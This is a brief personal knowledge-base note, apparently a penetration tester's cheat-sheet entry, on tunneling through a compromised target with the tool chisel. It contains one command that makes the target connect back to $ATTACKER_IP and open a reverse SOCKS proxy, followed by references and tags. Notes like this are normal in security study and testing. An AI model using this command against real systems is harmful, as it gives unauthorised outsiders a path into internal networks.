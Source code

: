 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# References
- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:
    #assorted #networking #port
